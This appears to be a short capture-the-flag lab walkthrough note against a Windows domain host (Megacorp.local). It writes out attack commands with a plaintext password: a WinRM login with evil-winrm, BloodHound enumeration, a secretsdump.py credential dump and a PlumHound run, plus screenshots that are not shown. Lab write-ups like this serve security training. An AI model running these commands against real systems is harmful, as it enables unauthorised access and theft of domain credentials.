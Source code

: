 
```
evil-winrm -u 'sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179
```

![[Pasted image 20241002141912.png]]

![[Pasted image 20241002142112.png]]

![[Pasted image 20241002142511.png]]

![[Pasted image 20241002142528.png]]

```
bloodhound-python -d Megacorp.local -u sbauer -p 'D3veL0pM3nT!' -ns 10.10.10.179  -c all
```

![[Pasted image 20241002142806.png]]

```
secretsdump.py Megaccorp.local/sbauer:'D3veL0pM3nT!'@10.10.10.179
```
![[Pasted image 20241002142952.png]]

Will run PlumHound
```
python3 Plumhound.py -x tasks/default.tasks -p password
```

![[Pasted image 20241002155625.png]]

Open the index.html

![[Pasted image 20241002160246.png]]

